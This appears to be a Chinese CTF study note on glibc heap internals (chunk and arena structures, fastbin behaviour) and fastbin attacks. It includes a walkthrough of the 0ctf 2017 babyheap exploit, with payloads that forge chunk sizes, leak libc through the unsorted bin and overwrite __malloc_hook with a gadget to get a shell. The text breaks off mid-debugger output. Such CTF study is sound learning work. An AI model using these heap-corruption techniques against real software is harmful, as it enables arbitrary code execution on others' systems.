









# chunk

身为pwn手，只是玩栈溢出的话，毫无意义。所以，还是应该啃一啃堆，虽然前路漫漫，但能做多少，就做多少。


chunk，结构就是那样：

```c
struct malloc_chunk {

  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```


```c
    An allocated chunk looks like this:


    chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Size of previous chunk, if unallocated (P clear)  |
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Size of chunk, in bytes                     |A|M|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             User data starts here...                          .
	    .                                                               .
	    .             (malloc_usable_size() bytes)                      .
	    .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             (size of chunk, but used for application data)    |
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Size of next chunk, in bytes                |A|0|1|
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            
            
    Free chunks are stored in circular doubly-linked lists, and look like this:

    chunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Size of previous chunk, if unallocated (P clear)  |
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `head:' |             Size of chunk, in bytes                     |A|0|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Forward pointer to next chunk in list             |
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Back pointer to previous chunk in list            |
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Unused space (may be 0 bytes long)                .
	    .                                                               .
	    .                                                               |
nextchunk-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `foot:' |             Size of chunk, in bytes                           |
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
	    |             Size of next chunk, in bytes                |A|0|0|
	    +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+


```


```c
struct malloc_state
{
 /* Serialize access.  */
 __libc_lock_define (, mutex);

 /* Flags (formerly in max_fast).  */
 int flags;

 /* Set if the fastbin chunks contain recently inserted free blocks.  */
 /* Note this is a bool but not all targets support atomics on booleans.  */
 int have_fastchunks;

 /* Fastbins */
 mfastbinptr fastbinsY[NFASTBINS];

 /* Base of the topmost chunk -- not otherwise kept in a bin */
 mchunkptr top;

 /* The remainder from the most recent split of a small request */
 mchunkptr last_remainder;

 /* Normal bins packed as described above */
 mchunkptr bins[NBINS * 2 - 2];

 /* Bitmap of bins */
 unsigned int binmap[BINMAPSIZE];

 /* Linked list */
 struct malloc_state *next;

 /* Linked list for free arenas.  Access to this field is serialized
   by free_list_lock in arena.c.  */
 struct malloc_state *next_free;

 /* Number of threads attached to this arena.  0 if the arena is on
   the free list.  Access to this field is serialized by
   free_list_lock in arena.c.  */  
 INTERNAL_SIZE_T attached_threads;
 
 /* Memory allocated from the system in this arena.  */
 INTERNAL_SIZE_T system_mem;
 INTERNAL_SIZE_T max_system_mem;
};
```


# Fastbin


通过调试，我们在main_arena里面，找到了fastbin的内容。所以显然，fastbin是LIFO。

并且按照free，1,2,3，的顺序：

fastbin------->   chunk1

fastbin------->   chunk2--->chunk1

fastbin------->   chunk3--->chunk2--->chunk1

---


堆，从低向高增长，所以，一个chunk的fd指针，指向它相邻的低地址的chunk。

对于这段代码：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
int main(){
	int* p1=(int*)malloc(0x20);
	int* p2=(int*)malloc(0x20);
	int* p3=(int*)malloc(0x20);
	int* p4=(int*)malloc(0x100);
	int* p5=(int*)malloc(0x100);
	int* p6=(int*)malloc(0x100);

	free(p1);
	free(p2);
	free(p3);
	free(p4);
	free(p5);
	free(p6);
} 
```

我们只看前三个chunk：

fastbin[对应大小]（简称为fbin）

执行：

free第1个chunk

- fbin---->chunk1

```c
fastbins
0x20: 0x0
0x30: 0x602000 ◂— 0x0
```

free第2个chunk

- fbin---->chunk2---->chunk1

```c
fastbins
0x20: 0x0
0x30: 0x602030 —▸ 0x602000 ◂— 0x0
```

free第3个chunk

- fbin---->chunk3---->chunk2---->chunk1

```c
fastbins
0x20: 0x0
0x30: 0x602060 —▸ 0x602030 —▸ 0x602000 ◂— 0x0
```

这是堆的结构：

```c
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x602000
Size: 0x31
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
Addr: 0x602030
Size: 0x31
fd: 0x602000

Free chunk (fastbins) | PREV_INUSE
Addr: 0x602060
Size: 0x31
fd: 0x602030
```

很有趣的东西，再次看了一遍ZCTF[easyheap]。我们要做的是，欺骗fastbin。



真是美妙的结构，可以欺骗的结构。

对于chunk部分而言，后进先出，fbin总是指向最后进入bin的那个chunk。


# Fastbin Attack

## 0ctf_2017_babyheap

感谢这位大哥，写的exp也太照顾人了。

https://blog.csdn.net/qq_43935969/article/details/115877748

---


当然，这个exp里面，chunk的索引写的很混乱。等我日后再做然后来修改修改。

---


堆题，经典的堆题目。

先分配5个chunk，4个0x10，一个0x80

```python
allo(0x10)#0
allo(0x10)#1
allo(0x10)#2
allo(0x10)#3
allo(0x80)#4
```

释放chunk1和2

```python
free(1)
free(2)
```


fbin->chunk2--->chunk1--->0x0


接着通过修改chunk0，来修改chunk2的fd指针

```python
payload = p64(0)*3 + p64(0x21) + p64(0)*3 + p64(0x21)
payload += p8(0x80)
fill(0,len(payload),payload)
```

应该是：fbin-->chunk2--->chun4--->0x0

也就是，chunk1已经无法访问到了。


然后修改chunk3,修改chunk4的大小，原本它是0x91,修改为0x21

```python
payload = p64(0)*3 + p64(0x21)
fill(3,len(payload),payload)
```

再分配2个chunk

```python
allo(0x10)#1 The original position of 2
allo(0x10)#2 4 Simultaneous pointing
```

fbin-->0x0

其实呢，chunk4，也就是那个大的chunk暂时是没有被释放过。但是我们通过修改fbin里面被释放的chunk的指针，让bin误以为我们释放了一个fastbin中的chunk4，然后修改chunk4的大小（为了躲过检查），然后再次分配，使得chunk4的地址被一个新的小指针指向。等于有两个指针指向同一个位置——chunk4。

接着，我们：

```python
payload = p64(0)*3 + p64(0x91)
fill(3,len(payload),payload)
```

修改chunk4的大小，本来它的size就是0x91，

等于是，恢复了chunk4。

同时有一个chunk2，大小为0x21,也指向这个位置。

free了chunk4。

```python
free(4)
```

这个chunk4要被放到unsortedbin里面。

然后它指向main_arena的地址。

泄露地址，获得libc的基址：

```pythoN
dump(2)
#so here,we can print the address of main_arena
content = u64(p.recvuntil(b'\x7f')[-6:]+b'\x00\x00')
print(hex(content))
libc_base = (content) - 0x3c4b78
print(hex(libc_base))
```


然后分配一个chunk4，替代了上个chunk4。这个chunk4的大小是0x71,chunk2，也就是程序以为的chunk2，应该是0x21的大小。虽然下面的那个放合并的chunk5显示的是0x90，说上一个chunk处在空闲状态。 但其实chunk2并不处在空闲状态。


接着freechunk4，也就是我们分配的这个0x60的chunk。

这个chunk4会被放到fastbin里面。




然后修改chunk2的fd指针，修改地址为

```python
payload = p64(libc_base + 0x3C4AED)
fill(2,len(payload),payload)
```

然后fastbin：

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x55885630f080 —▸ 0x7fcdd7742aed (_IO_wide_data_0+301) ◂— 0xcdd7403ea0000000
0x80: 0x0
unsortedbin
all: 0x55885630f0f0 —▸ 0x7fcdd7742b78 (main_arena+88) ◂— 0x55885630f0f0
smallbins
empty
largebins
empty
```


再次alloc两次，就能得到0x7fcdd7742aed的chunk6。

在这里修改malloc_hook地址为gadget的地址，然后你分配任意大小内存就能够调用gadget，实现getshell。

这是没有修改malloc_hook的图片：




这是修改了malloc_hook的图片：




# malloc_state-状态机

版本5.17（好像）

也叫状态机。

```c
/**
 * 全局malloc状态管理
 */
struct malloc_state
{
  /* Serialize access. 同步访问互斥锁 */
  __libc_lock_define (, mutex);
 
  /* Flags (formerly in max_fast).
   * 用于标记当前主分配区的状态
   *  */
  int flags;
 
  /* Set if the fastbin chunks contain recently inserted free blocks.  */
  /* Note this is a bool but not all targets support atomics on booleans.  */
  /* 用于标记是否有fastchunk */
  int have_fastchunks;
 
  /* Fastbins fast bins。
   * fast bins是bins的高速缓冲区，大约有10个定长队列。
   * 当用户释放一块不大于max_fast（默认值64）的chunk（一般小内存）的时候，会默认会被放到fast bins上。
   * */
  mfastbinptr fastbinsY[NFASTBINS];
 
  /* Base of the topmost chunk -- not otherwise kept in a bin */
  /* Top chunk ：并不是所有的chunk都会被放到bins上。
   * top chunk相当于分配区的顶部空闲内存，当bins上都不能满足内存分配要求的时候，就会来top chunk上分配。 */
  mchunkptr top;
 
  /* The remainder from the most recent split of a small request */
  mchunkptr last_remainder;
 
  /* Normal bins packed as described above
   * 常规 bins chunk的链表数组
   * 1. unsorted bin：是bins的一个缓冲区。当用户释放的内存大于max_fast或者fast bins合并后的chunk都会进入unsorted bin上
   * 2. small bins和large bins。small bins和large bins是真正用来放置chunk双向链表的。每个bin之间相差8个字节，并且通过上面的这个列表，
   * 可以快速定位到合适大小的空闲chunk。
   * 3. 下标1是unsorted bin，2到63是small bin，64到126是large bin，共126个bin
   * */
  mchunkptr bins[NBINS * 2 - 2];
 
  /* Bitmap of bins
   * 表示bin数组当中某一个下标的bin是否为空，用来在分配的时候加速
   * */
  unsigned int binmap[BINMAPSIZE];
 
  /* 分配区全局链表：分配区链表，主分配区放头部，新加入的分配区放main_arean.next 位置 Linked list */
  struct malloc_state *next;
 
  /* 分配区空闲链表 Linked list for free arenas.  Access to this field is serialized
     by free_list_lock in arena.c.  */
  struct malloc_state *next_free;
 
  /* Number of threads attached to this arena.  0 if the arena is on
     the free list.  Access to this field is serialized by
     free_list_lock in arena.c.  */
  INTERNAL_SIZE_T attached_threads;
 
  /* Memory allocated from the system in this arena.  */
  INTERNAL_SIZE_T system_mem;
  INTERNAL_SIZE_T max_system_mem;
};
```


我的注释：

mfastbinptr其实也可以理解为一个chunk指针：

```c
typedef struct malloc_chunk *mfastbinptr;
```

mchunkptr也是一个chunk指针：

```c
typedef struct malloc_chunk* mchunkptr;
```


## fastbinsY[NFASTBINS];

第4个成员：

```c
mfastbinptr fastbinsY[NFASTBINS];
```

查找NFASTBINS：

```c
#define NFASTBINS  (  (request2size (MAX_FAST_SIZE)) + 1)
```


## bins[NBINS * 2 - 2];

第七个成员：

```c
  /* Normal bins packed as described above */
  mchunkptr bins[NBINS * 2 - 2];
```

解释：

```c
#define NBINS             128
```


也就是bins数组

`为什么arena中，bins数组的大小为 NBINS * 2 - 2 呢？
 因为每个bin链在bins数组中存储的是一个指针fd指针和一个bk指针，即两个malloc chunk指针，所以要NBINS * 2
 又因为数组bins中索引为0、1的指针是不使用的，所以要减去2`

假设，我说是假设，bins[1]为unsorted bin链的fd成员，bin[2]则为其bk成员

- 第8个成员：

```c
  /* Bitmap of bins */
  unsigned int binmap[BINMAPSIZE];
```

ptmalloc 用一个 bit 来标识某一个 bin 中是否包含空闲 chunk 。

- 第9个：

```c
  /* Linked list */
  struct malloc_state *next;
```

next：分配区全局链表，主分配区放头部，新加入的分配区放main_arean.next 位置。

- 第10个

```c
  /* Linked list for free arenas.  Access to this field is serialized
     by free_list_lock in arena.c.  */
  struct malloc_state *next_free;
```

next_free：空闲的分配区

# malloc.c源码


```c
  This is a version (aka ptmalloc2) of malloc/free/realloc written by
  Doug Lea and adapted to multiple threads/arenas by Wolfram Gloger.

  There have been substantial changes made after the integration into
  glibc in all parts of the code.  Do not look for much commonality
  with the ptmalloc2 version.

* Version ptmalloc2-20011215
  based on:
  VERSION 2.7.0 Sun Mar 11 14:14:06 2001  Doug Lea  (dl at gee)

* Quickstart

  In order to compile this implementation, a Makefile is provided with
  the ptmalloc2 distribution, which has pre-defined targets for some
  popular systems (e.g. "make posix" for Posix threads).  All that is
  typically required with regard to compiler flags is the selection of
  the thread package via defining one out of USE_PTHREADS, USE_THR or
  USE_SPROC.  Check the thread-m.h file for what effects this has.
  Many/most systems will additionally require USE_TSD_DATA_HACK to be
  defined, so this is the default for "make posix".

* Why use this malloc?

  This is not the fastest, most space-conserving, most portable, or
  most tunable malloc ever written. However it is among the fastest
  while also being among the most space-conserving, portable and tunable.
  Consistent balance across these factors results in a good general-purpose
  allocator for malloc-intensive programs.

  The main properties of the algorithms are:
  * For large (>= 512 bytes) requests, it is a pure best-fit allocator,
    with ties normally decided via FIFO (i.e. least recently used).
  * For small (<= 64 bytes by default) requests, it is a caching
    allocator, that maintains pools of quickly recycled chunks.
  * In between, and for combinations of large and small requests, it does
    the best it can trying to meet both goals at once.
  * For very large requests (>= 128KB by default), it relies on system
    memory mapping facilities, if supported.
//算法的基本特性，就是对于不同大小的chunk进行不同的操作
  For a longer but slightly out of date high-level description, see
     http://gee.cs.oswego.edu/dl/html/malloc.html

  You may already by default be using a C library containing a malloc
  that is  based on some version of this malloc (for example in
  linux). You might still want to use the one in this file in order to
  customize settings or to avoid overheads associated with library
  versions.

* Contents, described in more detail in "description of public routines" below.
//主要使用到的函数
  Standard (ANSI/SVID/...)  functions:
    malloc(size_t n);
    calloc(size_t n_elements, size_t element_size);
    free(void* p);
    realloc(void* p, size_t n);
    memalign(size_t alignment, size_t n);
    valloc(size_t n);
    mallinfo()
    mallopt(int parameter_number, int parameter_value)
//额外的函数
  Additional functions:
    independent_calloc(size_t n_elements, size_t size, void* chunks[]);
    independent_comalloc(size_t n_elements, size_t sizes[], void* chunks[]);
    pvalloc(size_t n);
    malloc_trim(size_t pad);
    malloc_usable_size(void* p);
    malloc_stats();

//重要的相关数据

* Vital statistics:
//指针大小
  Supported pointer representation:       4 or 8 bytes
//size_t的大小
  Supported size_t  representation:       4 or 8 bytes
       Note that size_t is allowed to be 4 bytes even if pointers are 8.
       You can adjust this by defining INTERNAL_SIZE_T
//对齐大小
  Alignment:                              2 * sizeof(size_t) (default)
       (i.e., 8 byte alignment with 4byte size_t). This suffices for
       nearly all current machines and C compilers. However, you can
       define MALLOC_ALIGNMENT to be wider than this if necessary.

  Minimum overhead per allocated chunk:   4 or 8 bytes
       Each malloced chunk has a hidden word of overhead holding size
       and status information.

  Minimum allocated size: 4-byte ptrs:  16 bytes    (including 4 overhead)
			  8-byte ptrs:  24/32 bytes (including, 4/8 overhead)

       When a chunk is freed, 12 (for 4byte ptrs) or 20 (for 8 byte
       ptrs but 4 byte size) or 24 (for 8/8) additional bytes are
       needed; 4 (8) for a trailing size field and 8 (16) bytes for
       free list pointers. Thus, the minimum allocatable size is
       16/24/32 bytes.

       Even a request for zero bytes (i.e., malloc(0)) returns a
       pointer to something of the minimum allocatable size.

       The maximum overhead wastage (i.e., number of extra bytes
       allocated than were requested in malloc) is less than or equal
       to the minimum size, except for requests >= mmap_threshold that
       are serviced via mmap(), where the worst case wastage is 2 *
       sizeof(size_t) bytes plus the remainder from a system page (the
       minimal mmap unit); typically 4096 or 8192 bytes.

  Maximum allocated size:  4-byte size_t: 2^32 minus about two pages
			   8-byte size_t: 2^64 minus about two pages

       It is assumed that (possibly signed) size_t values suffice to
       represent chunk sizes. `Possibly signed' is due to the fact
       that `size_t' may be defined on a system as either a signed or
       an unsigned type. The ISO C standard says that it must be
       unsigned, but a few systems are known not to adhere to this.
       Additionally, even when size_t is unsigned, sbrk (which is by
       default used to obtain memory from system) accepts signed
       arguments, and may not be able to handle size_t-wide arguments
       with negative sign bit.  Generally, values that would
       appear as negative after accounting for overhead and alignment
       are supported only via mmap(), which does not have this
       limitation.

       Requests for sizes outside the allowed range will perform an optional
       failure action and then return null. (Requests may also
       also fail because a system is out of memory.)

  Thread-safety: thread-safe

  Compliance: I believe it is compliant with the 1997 Single Unix Specification
       Also SVID/XPG, ANSI C, and probably others as well.

* Synopsis of compile-time options:

    People have reported using previous versions of this malloc on all
    versions of Unix, sometimes by tweaking some of the defines
    below. It has been tested most extensively on Solaris and Linux.
    People also report using it in stand-alone embedded systems.

    The implementation is in straight, hand-tuned ANSI C.  It is not
    at all modular. (Sorry!)  It uses a lot of macros.  To be at all
    usable, this code should be compiled using an optimizing compiler
    (for example gcc -O3) that can simplify expressions and control
    paths. (FAQ: some macros import variables as arguments rather than
    declare locals because people reported that some debuggers
    otherwise get confused.)

    OPTION                     DEFAULT VALUE

    Compilation Environment options:

    HAVE_MREMAP                0

    Changing default word sizes:

    INTERNAL_SIZE_T            size_t

    Configuration and functionality options:

    USE_PUBLIC_MALLOC_WRAPPERS NOT defined
    USE_MALLOC_LOCK            NOT defined
    MALLOC_DEBUG               NOT defined
    REALLOC_ZERO_BYTES_FREES   1
    TRIM_FASTBINS              0

    Options for customizing MORECORE:

    MORECORE                   sbrk
    MORECORE_FAILURE           -1
    MORECORE_CONTIGUOUS        1
    MORECORE_CANNOT_TRIM       NOT defined
    MORECORE_CLEARS            1
    MMAP_AS_MORECORE_SIZE      (1024 * 1024)

    Tuning options that are also dynamically changeable via mallopt:

    DEFAULT_MXFAST             64 (for 32bit), 128 (for 64bit)
    DEFAULT_TRIM_THRESHOLD     128 * 1024
    DEFAULT_TOP_PAD            0
    DEFAULT_MMAP_THRESHOLD     128 * 1024
    DEFAULT_MMAP_MAX           65536

    There are several other #defined constants and macros that you
    probably don't want to touch unless you are extending or adapting malloc.  

/*
  void* is the pointer type that malloc should say it returns
*/

```


# overview-heap-exploitation


内容来自：https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/

fastbin，我们看到，是单链表（**singly linked**）。

给你来个程序：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
int main(){
	int* p1=(int*)malloc(0x20);
	int* p2=(int*)malloc(0x30);
	int* p3=(int*)malloc(0x40);

	free(p1);
	free(p2);
	free(p3);
} 
```


当然，这三个都是在fastbin里的。

---

free了这三个chunk后，我惊奇的发现还能查看heap，于是就开心的查看了一番：

```assembly
   0x4005b7       <main+81>                  call   free@plt <free@plt>
 ► 0x4005bc       <main+86>                  mov    eax, 0
   0x4005c1       <main+91>                  leave  
   0x4005c2       <main+92>                  ret    
    ↓
   0x7ffff7a2d840 <__libc_start_main+240>    mov    edi, eax
   0x7ffff7a2d842 <__libc_start_main+242>    call   exit <exit>

```

在这个位置处，查看：

heap：

```c
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE
Addr: 0x602000
Size: 0x31
fd: 0x00

Free chunk (fastbins) | PREV_INUSE
